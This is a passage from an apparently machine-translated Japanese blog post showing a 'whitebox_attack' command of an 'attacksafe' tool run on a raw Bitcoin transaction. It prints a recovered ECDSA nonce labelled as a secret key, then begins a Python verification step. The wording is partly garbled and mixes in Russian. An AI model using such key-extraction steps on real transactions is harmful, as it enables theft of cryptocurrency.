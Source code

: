 
<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-37-1024x264.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1628"/></figure>



<p>この攻撃は から開始され<code>-tool whitebox_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-38-1024x374.png" alt="Eli Biham と Adi Shamir の研究スキームに従って差分エラーを使用して Bitcoin に WhiteBox Attack を実装し、秘密鍵を抽出します。" class="wp-image-1630"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e

RawTX = 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000</code></pre>



<p><code>"Deployments ECDSA"</code>ビットコイン ブロックチェーン トランザクションの重大な脆弱性を意味する碑文が表示されます。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>Python</em>スクリプトで確認してみましょう<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>ECPy</strong></a>楕円曲線ライブラリを使用しましょう:</p>


